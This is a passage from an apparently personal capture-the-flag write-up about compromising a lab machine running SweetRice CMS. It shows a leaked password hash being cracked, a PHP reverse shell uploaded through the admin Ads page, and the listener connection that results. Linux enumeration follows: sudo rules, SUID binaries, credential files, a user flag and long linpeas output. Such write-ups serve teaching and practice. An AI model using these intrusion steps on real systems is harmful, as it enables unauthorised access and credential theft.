  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  6 => 'DROP TABLE IF EXISTS `%--%_item_data`;',
  7 => 'CREATE TABLE `%--%_item_data` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `item_id` int(10) NOT NULL,
  `item_type` varchar(255) NOT NULL,
  `data_type` varchar(20) NOT NULL,
  `name` varchar(255) NOT NULL,
  `value` text NOT NULL,
  PRIMARY KEY (`id`),
  KEY `item_id` (`item_id`),
  KEY `item_type` (`item_type`),
  KEY `name` (`name`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  8 => 'DROP TABLE IF EXISTS `%--%_item_plugin`;',
  9 => 'CREATE TABLE `%--%_item_plugin` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `item_id` int(10) NOT NULL,
  `item_type` varchar(255) NOT NULL,
  `plugin` varchar(255) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  10 => 'DROP TABLE IF EXISTS `%--%_links`;',
  11 => 'CREATE TABLE `%--%_links` (
  `lid` int(10) NOT NULL AUTO_INCREMENT,
  `request` text NOT NULL,
  `url` text NOT NULL,
  `plugin` varchar(255) NOT NULL,
  PRIMARY KEY (`lid`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  12 => 'DROP TABLE IF EXISTS `%--%_options`;',
  13 => 'CREATE TABLE `%--%_options` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `content` mediumtext NOT NULL,
  `date` int(10) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `name` (`name`)
) ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
  15 => 'INSERT INTO `%--%_options` VALUES(\'2\',\'categories\',\'\',\'1575023409\');',
  16 => 'INSERT INTO `%--%_options` VALUES(\'3\',\'links\',\'\',\'1575023409\');',
  17 => 'DROP TABLE IF EXISTS `%--%_posts`;',
  18 => 'CREATE TABLE `%--%_posts` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `title` varchar(255) NOT NULL,
  `body` longtext NOT NULL,
  `keyword` varchar(255) NOT NULL DEFAULT \'\',
  `tags` text NOT NULL,
  `description` varchar(255) NOT NULL DEFAULT \'\',
  `sys_name` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `category` int(10) NOT NULL DEFAULT \'0\',
  `in_blog` tinyint(1) NOT NULL,
  `views` int(10) NOT NULL,
  `allow_comment` tinyint(1) NOT NULL DEFAULT \'1\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `sys_name` (`sys_name`),
  KEY `date` (`date`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>                                                                                                                                    
```

Which gives two possible usernames *admin* and *manager*, and a password hash. Crack the hash at the station:


> UN: manager
>
> PW: Password123

And successful login:



Clicking around the interface, found a section titles *Ads*, that allows script input, possibly *php*. Try to upload some script.



Uploaded *PenTestMonkey*'s *php-reverse-shell* script and got me some reverse shell action. But time for bed, and tomorrow we exploit!

```
listening on [any] 4444 ...
connect to [10.9.1.245] from (UNKNOWN) [10.10.29.176] 50870
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 14:10:09 up 9 min,  0 users,  load average: 0.14, 0.91, 0.73
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/
$ whoami
www-data
$ groups  
www-data
```

Upgraded the shell!!


---
## Linux Enum
Poke the Penguin:

### sudo
No password so cannot run *sudo*.

WRONG!!

```
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

### /etc/passwd
Who has a *home* directory?

```
www-data@THM-Chal:/$ cat /etc/passwd | grep home
syslog:x:104:108::/home/syslog:/bin/false
itguy:x:1000:1000:THM-Chal,,,:/home/itguy:/bin/bash
```

### SUID
This one takes a while to run on this machine...

```
www-data@THM-Chal:/$ find / -perm -4000 2> /dev/null
/usr/sbin/pppd
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/xorg/Xorg.wrap
/usr/lib/i386-linux-gnu/oxide-qt/chrome-sandbox
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/chfn
/bin/umount
/bin/ping6
/bin/ping
/bin/mount
/bin/su
/bin/fusermount
```

### user.txt
Poked around in some directories and found *user.txt* in *itguy*'s home folder.

```
www-data@THM-Chal:/home/itguy$ cat user.txt 
THM{63e5bce9271952aad1113b6f1ac28a07}
```

### itguy
Found some credentials in a file labelled *mysql_login.txt*

```
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt 
rice:randompass
```

## linpeas.sh

```
www-data@THM-Chal:/tmp$ chmod +x linpeas.sh
www-data@THM-Chal:/tmp$ ./linpeas.sh 


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------\
    |                             Do you like PEASS?                            |                                                                    
    |---------------------------------------------------------------------------|                                                                    
    |         Become a Patreon    :     https://www.patreon.com/peass           |                                                                    
    |         Follow on Twitter   :     @carlospolopm                           |                                                                    
    |         Respect on HTB      :     SirBroccoli & makikvues                 |                                                                    
    |---------------------------------------------------------------------------|                                                                    
    |                                 Thank you!                                |                                                                    
    \---------------------------------------------------------------------------/                                                                    
          linpeas-ng by carlospolop                                                                                                                  
                                                                                                                                                     
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.                
                                                                                                                                                     
Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
 LEGEND:                                                                                                                                             
  RED/YELLOW: 95% a PE vector
  RED: You should take a look to it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs) 
  LightMagenta: Your username

 Starting linpeas. Caching Writable Folders...

                                         ╔═══════════════════╗
═════════════════════════════════════════╣ Basic information ╠═════════════════════════════════════════                                              
                                         ╚═══════════════════╝                                                                                       
OS: Linux version 4.15.0-70-generic (buildd@lgw01-amd64-006) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.12)) #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019
User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)
Hostname: THM-Chal
Writable folder: /dev/shm
[+] /bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /bin/nc is available for network discover & port scanning (linpeas can discover hosts and scan ports, learn more with -h)                        
                                                                                                                                                     

Caching directories . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . uniq: write error: Broken pipe
DONE
                                                                                                                                                     
                                        ╔════════════════════╗
════════════════════════════════════════╣ System Information ╠════════════════════════════════════════                                               
                                        ╚════════════════════╝                                                                                       
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits                                                                        
Linux version 4.15.0-70-generic (buildd@lgw01-amd64-006) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.12)) #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019
Distributor ID: Ubuntu
Description:    Ubuntu 16.04.6 LTS
Release:        16.04
Codename:       xenial

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                                           
Sudo version 1.8.16                                                                                                                                  

╔══════════╣ USBCreator
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation                           
                                                                                                                                                     
╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses                                                                   
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin                                                                                         
New path exported: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

╔══════════╣ Date & uptime
Wed Mar 23 14:44:51 EET 2022                                                                                                                         
 14:44:51 up 44 min,  0 users,  load average: 0.39, 1.00, 9.67

╔══════════╣ Any sd*/disk* disk in /dev? (limit 20)
disk                                                                                                                                                 

╔══════════╣ Unmounted file-system?
╚ Check if you can mount umounted devices                                                                                                            
sed: -e expression #1, char 223: unknown option to `s'                                                                                               
sed: couldn't flush stdout: Broken pipe

╔══════════╣ Environment
╚ Any private information inside environment variables?                                                                                              
HISTFILESIZE=0                                                                                                                                       
SHLVL=1
OLDPWD=/home/itguy
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
_=./linpeas.sh
TERM=xterm
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
HISTSIZE=0
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
APACHE_LOG_DIR=/var/log/apache2
PWD=/tmp
HISTFILE=/dev/null

╔══════════╣ Searching Signature verification failed in dmesg
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#dmesg-signature-verification-failed                                                    
[  163.808124] vboxvideo: module verification failed: signature and/or required key missing - tainting kernel                                        

╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                                                   
sed: -e expression #1, char 27: unknown option to `s'                                                                                                
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
grep: write error: Broken pipe

╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2                                                                                              
                                                                                                                                                     
╔══════════╣ Protections
═╣ AppArmor enabled? .............. You do not have enough privilege to read the profile set.                                                        
apparmor module is loaded.
═╣ grsecurity present? ............ grsecurity Not Found
═╣ PaX bins present? .............. PaX Not Found                                                                                                    
═╣ Execshield enabled? ............ Execshield Not Found                                                                                             
═╣ SELinux enabled? ............... sestatus Not Found                                                                                               
═╣ Is ASLR enabled? ............... Yes                                                                                                              
═╣ Printer? ....................... No
═╣ Is this a virtual machine? ..... Yes (xen)                                                                                                        

                                             ╔═══════════╗
═════════════════════════════════════════════╣ Container ╠═════════════════════════════════════════════                                              
                                             ╚═══════════╝                                                                                           
╔══════════╣ Container related tools present
╔══════════╣ Container details                                                                                                                       
═╣ Is this a container? ........... No                                                                                                               
═╣ Any running containers? ........ No                                                                                                               
                                                                                                                                                     

                          ╔════════════════════════════════════════════════╗
══════════════════════════╣ Processes, Crons, Timers, Services and Sockets ╠══════════════════════════                                               
                          ╚════════════════════════════════════════════════╝                                                                         
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes                               
root         1  0.9  0.7  24168  3188 ?        Ss   14:00   0:26 /sbin/init splash                                                                   
root       227  0.1  0.2   5116   992 ?        Ss   14:01   0:04 /lib/systemd/systemd-journald
root       246  0.1  0.4  14508  1752 ?        Ss   14:01   0:03 /lib/systemd/systemd-udevd
root       671  0.0  0.4   6016  1768 ?        Ss   14:01   0:00 /sbin/dhclient -1 -v -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0
avahi      728  0.0  0.0   5924    24 ?        S    14:01   0:00  _ avahi-daemon: chroot helper
message+   736  0.1  0.4   6496  2056 ?        Ss   14:01   0:02 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
  └─(Caps) 0x0000000020000000=cap_audit_write
root       787  0.0  0.2  91788  1132 ?        Ssl  14:01   0:01 /usr/sbin/NetworkManager --no-daemon[0m
root       788  0.0  0.2   4136   944 ?        Ss   14:01   0:00 /lib/systemd/systemd-logind
root       791  0.0  0.3  39212  1736 ?        Ssl  14:01   0:00 /usr/lib/accountsservice/accounts-daemon[0m
root       799  0.0  0.1   7116   688 ?        Ss   14:01   0:00 /usr/sbin/cron -f
syslog     800  0.0  0.1  30732   600 ?        Ssl  14:01   0:00 /usr/sbin/rsyslogd -n
root       805  0.0  0.0   2248   200 ?        Ss   14:01   0:00 /usr/sbin/acpid
root       913  0.0  0.6  37152  2996 ?        Ssl  14:02   0:01 /usr/lib/policykit-1/polkitd --no-debug
root       937  0.0  0.2  36200  1192 ?        Ssl  14:02   0:02 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
root       948  0.0  0.0  10004    48 ?        Ss   14:02   0:00 /usr/sbin/sshd -D
mysql      960  0.1  5.6 550400 24596 ?        Ssl  14:02   0:04 /usr/sbin/mysqld
whoopsie   968  0.0  0.3  38176  1392 ?        Ssl  14:02   0:00 /usr/bin/whoopsie -f
root      1063  0.0  1.9 152964  8536 ?        Ss   14:02   0:01 php-fpm: master process (/etc/php/7.0/fpm/php-fpm.conf)
www-data  1106  0.0  0.0 152964    68 ?        S    14:02   0:00  _ php-fpm: pool www
www-data  1107  0.0  0.0 152964    68 ?        S    14:02   0:00  _ php-fpm: pool www
root      1082  0.2  3.2 152228 14400 ?        Ss   14:02   0:06 /usr/sbin/apache2 -k start
www-data  2132  0.1  1.8 152488  8144 ?        S    14:10   0:04  _ /usr/sbin/apache2 -k start
www-data  2143  0.0  1.7 152504  7796 ?        S    14:10   0:00  _ /usr/sbin/apache2 -k start
www-data  2188  0.0  0.0   2372    44 ?        S    14:10   0:00  |   _ sh -c uname -a; w; id; /bin/sh -i
www-data  2192  0.0  0.0   2372    44 ?        S    14:10   0:00  |       _ /bin/sh -i
www-data  2422  0.0  0.6   9636  2916 ?        S    14:17   0:00  |           _ python3 -c import pty;pty.spawn("/bin/bash")
www-data  2423  0.0  0.4   3776  2064 pts/8    Ss   14:18   0:00  |               _ /bin/bash
www-data  2547  0.1  0.5   3224  2336 pts/8    S+   14:44   0:00  |                   _ /bin/sh ./linpeas.sh
www-data  5206  0.0  0.2   3224   928 pts/8    S+   14:44   0:00  |                       _ /bin/sh ./linpeas.sh
www-data  5210  0.0  0.6   5824  2812 pts/8    R+   14:44   0:00  |                       |   _ ps fauxwww
www-data  5209  0.0  0.2   3224   928 pts/8    S+   14:44   0:00  |                       _ /bin/sh ./linpeas.sh
www-data  2148  0.1  1.1 152292  4964 ?        S    14:10   0:03  _ /usr/sbin/apache2 -k start
www-data  2274  0.2  1.1 152292  4972 ?        S    14:11   0:04  _ /usr/sbin/apache2 -k start
www-data  2316  0.1  1.1 152292  4964 ?        S    14:11   0:03  _ /usr/sbin/apache2 -k start
www-data  2321  0.1  1.1 152308  4976 ?        S    14:11   0:04  _ /usr/sbin/apache2 -k start
www-data  2322  0.1  1.1 152292  4964 ?        S    14:11   0:03  _ /usr/sbin/apache2 -k start
www-data  2332  0.2  1.1 152292  4964 ?        S    14:11   0:04  _ /usr/sbin/apache2 -k start
www-data  2335  0.1  1.1 152292  4964 ?        S    14:11   0:03  _ /usr/sbin/apache2 -k start
www-data  2384  0.1  1.1 152292  4964 ?        S    14:12   0:03  _ /usr/sbin/apache2 -k start
www-data  2387  0.1  1.1 152292  4964 ?        S    14:12   0:03  _ /usr/sbin/apache2 -k start
root      1253  0.0  0.3  43392  1512 ?        Ssl  14:03   0:00 /usr/sbin/lightdm
root      1263  0.1  2.2 153212  9700 tty7     Ssl+ 14:03   0:03  _ /usr/lib/xorg/Xorg -core :0 -seat seat0 -auth /var/run/lightdm/root/:0 -nolisten tcp vt7 -novtswitch
root      1287  0.0  0.3  27912  1376 ?        Sl   14:03   0:00  _ lightdm --session-child 16 19
lightdm   1298  0.0  0.0   2372     0 ?        Ss   14:03   0:00  |   _ /bin/sh /usr/lib/lightdm/lightdm-greeter-session /usr/sbin/unity-greeter
lightdm   1304  0.4  2.3 370468 10460 ?        Sl   14:03   0:10  |       _ /usr/sbin/unity-greeter
root      1340  0.0  0.3   9372  1588 ?        S    14:03   0:00  _ lightdm --session-child 12 19
root      1266  0.0  0.0   4752   296 tty1     Ss+  14:03   0:00 /sbin/agetty --noclear tty1 linux
root      1268  0.0  0.1   6104   496 ttyS0    Ss+  14:03   0:00 /sbin/agetty --keep-baud 115200 38400 9600 ttyS0 vt220
lightdm   1290  0.0  0.4   6396  2172 ?        Ss   14:03   0:00 /lib/systemd/systemd --user
lightdm   1291  0.0  0.0  25184   392 ?        S    14:03   0:00  _ (sd-pam)
lightdm   1303  0.0  0.2   6064  1044 ?        Ss   14:03   0:01 /usr/bin/dbus-daemon --fork --print-pid 5 --print-address 7 --session
lightdm   1306  0.0  0.3  43468  1476 ?        Sl   14:03   0:00 /usr/lib/at-spi2-core/at-spi-bus-launcher --launch-immediately
lightdm   1311  0.0  0.1   5940   588 ?        S    14:03   0:00  _ /usr/bin/dbus-daemon --config-file=/etc/at-spi2/accessibility.conf --nofork --print-address 3
lightdm   1313  0.0  0.1  29176   744 ?        Sl   14:03   0:00 /usr/lib/at-spi2-core/at-spi2-registryd --use-gnome-session
lightdm   1319  0.0  0.4  39796  1748 ?        Sl   14:03   0:00 /usr/lib/gvfs/gvfsd
lightdm   1324  0.0  0.3  50688  1496 ?        Sl   14:03   0:00 /usr/lib/gvfs/gvfsd-fuse /run/user/108/gvfs -f -o big_writes
lightdm   1334  0.0  0.3  25268  1640 ?        Sl   14:03   0:00 /usr/lib/dconf/dconf-service
lightdm   1343  0.0  0.2   9684  1288 ?        S    14:03   0:00 upstart --user --startup-event indicator-services-start
lightdm   1349  0.0  0.4  48092  1944 ?        Ssl  14:03   0:00  _ /usr/lib/i386-linux-gnu/indicator-messages/indicator-messages-service
lightdm   1350  0.0  0.3  45632  1608 ?        Ssl  14:03   0:00  _ /usr/lib/i386-linux-gnu/indicator-bluetooth/indicator-bluetooth-service
lightdm   1351  0.0  0.5  72700  2284 ?        Ssl  14:03   0:00  _ /usr/lib/i386-linux-gnu/indicator-power/indicator-power-service
lightdm   1352  0.0  0.7  92080  3404 ?        Ssl  14:03   0:00  _ /usr/lib/i386-linux-gnu/indicator-datetime/indicator-datetime-service
lightdm   1353  0.1  1.4 105292  6304 ?        Ssl  14:03   0:04  _ /usr/lib/i386-linux-gnu/indicator-keyboard/indicator-keyboard-service --use-gtk
lightdm   1354  0.0  0.4 323552  2136 ?        Ssl  14:03   0:00  _ /usr/lib/i386-linux-gnu/indicator-sound/indicator-sound-service
lightdm   1370  0.0  0.3  71072  1584 ?        Ssl  14:03   0:00  _ /usr/lib/i386-linux-gnu/indicator-session/indicator-session-service
lightdm   1371  0.0  0.4  58000  1808 ?        Ssl  14:03   0:00  _ /usr/lib/i386-linux-gnu/indicator-application/indicator-application-service
lightdm   1402  0.0  0.4 156548  1864 ?        S<l  14:03   0:00  _ /usr/bin/pulseaudio --start --log-target=syslog
lightdm   1345  0.1  1.5 119876  6776 ?        Sl   14:03   0:02 nm-applet
lightdm   1347  0.1  1.3  82888  5952 ?        Sl   14:03   0:02 /usr/lib/unity-settings-daemon/unity-settings-daemon
rtkit     1403  0.0  0.2  23792  1000 ?        SNsl 14:03   0:00 /usr/lib/rtkit/rtkit-daemon
  └─(Caps) 0x0000000000800004=cap_dac_read_search,cap_sys_nice
root      1423  0.0  0.4  72992  2156 ?        Ssl  14:04   0:00 /usr/lib/upower/upowerd
colord    1433  0.0  0.8  43268  3668 ?        Ssl  14:04   0:01 /usr/lib/colord/colord
root      1598  0.0  0.3  15728  1372 ?        Ss   14:07   0:00 /usr/sbin/cupsd -l
root      1599  0.0  0.5  37444  2384 ?        Ssl  14:07   0:00 /usr/sbin/cups-browsed

╔══════════╣ Binary processes permissions (non 'root root' and not beloging to current user)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes                                                                              
                                                                                                                                                     
╔══════════╣ Files opened by processes belonging to other users
╚ This is usually empty because of the lack of privileges to read other user processes information                                                   
COMMAND    PID  TID       USER   FD      TYPE DEVICE SIZE/OFF   NODE NAME                                                                            

╔══════════╣ Processes with credentials in memory (root req)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#credentials-from-process-memory                                                        
gdm-password Not Found                                                                                                                               
gnome-keyring-daemon Not Found                                                                                                                       
lightdm process found (dump creds from memory as root)                                                                                               
vsftpd Not Found
apache2 process found (dump creds from memory as root)                                                                                               
sshd Not Found
                                                                                                                                                     
╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs                                                                    
/usr/bin/crontab                                                                                                                                     
incrontab Not Found
-rw-r--r-- 1 root root     722 Apr  6  2016 /etc/crontab                                                                                             

/etc/cron.d:
total 32
drwxr-xr-x   2 root root  4096 Nov 29  2019 .
drwxr-xr-x 135 root root 12288 Mar 23 14:03 ..
-rw-r--r--   1 root root   102 Apr  6  2016 .placeholder
-rw-r--r--   1 root root   244 Dec 29  2014 anacron
-rw-r--r--   1 root root   670 Jun 22  2017 php
-rw-r--r--   1 root root   189 Nov 29  2019 popularity-contest

/etc/cron.daily:
total 76
drwxr-xr-x   2 root root  4096 Nov 29  2019 .
drwxr-xr-x 135 root root 12288 Mar 23 14:03 ..
-rw-r--r--   1 root root   102 Apr  6  2016 .placeholder
-rwxr-xr-x   1 root root   311 Dec 29  2014 0anacron
-rwxr-xr-x   1 root root   539 Jun 11  2018 apache2
-rwxr-xr-x   1 root root   376 Mar 31  2016 apport
-rwxr-xr-x   1 root root  1474 Oct  9  2018 apt-compat
-rwxr-xr-x   1 root root   355 May 22  2012 bsdmainutils
-rwxr-xr-x   1 root root   384 Oct  6  2014 cracklib-runtime
-rwxr-xr-x   1 root root  1597 Nov 27  2015 dpkg
-rwxr-xr-x   1 root root   372 May  6  2015 logrotate
-rwxr-xr-x   1 root root  1293 Nov  6  2015 man-db
-rwxr-xr-x   1 root root   435 Nov 18  2014 mlocate
-rwxr-xr-x   1 root root   249 Nov 13  2015 passwd
-rwxr-xr-x   1 root root  3449 Feb 26  2016 popularity-contest
-rwxr-xr-x   1 root root   214 Dec  7  2018 update-notifier-common
-rwxr-xr-x   1 root root  1046 May 19  2016 upstart

/etc/cron.hourly:
total 20
drwxr-xr-x   2 root root  4096 Feb 27  2019 .
drwxr-xr-x 135 root root 12288 Mar 23 14:03 ..
-rw-r--r--   1 root root   102 Apr  6  2016 .placeholder

/etc/cron.monthly:
total 24
drwxr-xr-x   2 root root  4096 Feb 27  2019 .
drwxr-xr-x 135 root root 12288 Mar 23 14:03 ..
-rw-r--r--   1 root root   102 Apr  6  2016 .placeholder
-rwxr-xr-x   1 root root   313 Dec 29  2014 0anacron

/etc/cron.weekly:
total 36
drwxr-xr-x   2 root root  4096 Nov 29  2019 .
drwxr-xr-x 135 root root 12288 Mar 23 14:03 ..
-rw-r--r--   1 root root   102 Apr  6  2016 .placeholder
-rwxr-xr-x   1 root root   312 Dec 29  2014 0anacron
-rwxr-xr-x   1 root root   210 Oct 10  2019 fstrim
-rwxr-xr-x   1 root root   771 Nov  6  2015 man-db
-rwxr-xr-x   1 root root   211 Dec  7  2018 update-notifier-common

/var/spool/anacron:
total 20
drwxr-xr-x 2 root root 4096 Nov 29  2019 .
drwxr-xr-x 6 root root 4096 Nov 29  2019 ..
-rw------- 1 root root    9 Mar 23 14:07 cron.daily
-rw------- 1 root root    9 Mar 23 14:16 cron.monthly
-rw------- 1 root root    9 Mar 23 14:12 cron.weekly

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin


SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
HOME=/root
LOGNAME=root

1       5       cron.daily      run-parts --report /etc/cron.daily
7       10      cron.weekly     run-parts --report /etc/cron.weekly
@monthly        15      cron.monthly    run-parts --report /etc/cron.monthly

╔══════════╣ Systemd PATH
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#systemd-path-relative-paths                                                            
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin                                                                          

╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#services                                                                               
/etc/systemd/system/multi-user.target.wants/networking.service is executing some relative path                                                       
/etc/systemd/system/network-online.target.wants/networking.service is executing some relative path
You can't write on systemd PATH

╔══════════╣ System timers
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#timers                                                                                 
NEXT                         LEFT     LAST                         PASSED    UNIT                         ACTIVATES                                  
Wed 2022-03-23 23:34:11 EET  8h left  Wed 2022-03-23 14:01:51 EET  43min ago apt-daily.timer              apt-daily.service
Thu 2022-03-24 01:02:39 EET  10h left Wed 2022-03-23 14:01:51 EET  43min ago motd-news.timer              motd-news.service
